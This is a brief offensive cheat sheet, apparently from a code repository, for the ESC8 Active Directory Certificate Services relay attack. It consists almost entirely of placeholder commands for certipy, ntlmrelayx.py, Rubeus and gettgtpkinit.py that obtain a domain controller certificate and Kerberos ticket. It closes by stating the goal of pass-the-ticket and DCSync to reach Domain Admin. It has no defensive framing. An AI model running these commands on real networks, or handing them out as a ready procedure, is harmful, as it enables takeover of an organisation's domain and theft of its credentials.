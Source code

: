 # ESC8 - AD CS Relay Attack

## Tools: ntlmrelayx , Rubeus , certipy , gettgtpkinit.py

### If Web Enrollment is up, we do:

#### 1) Certipy

 - certipy relay -ca CA_IP -template DomainController

 - certipy auth -pfx CERTIFICATE -dc-ip DC_IP

#### 2) ntlmrelayx

 - ntlmrelayx.py -t http://DC_IP/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController

 - Rubeus.exe asktgt /user:USER /certificate:BASE64_CERTIFICATE /ptt

## OR

 - gettgtpkinit.py -pfx base64 $(cat CERT.B64) DOMAIN/DC_NAME$ CCACHE_FILE

### This attack utilizes Pass the Ticket lateral movement, then proceed to DCSync on the DC to gain Domain Admin Access
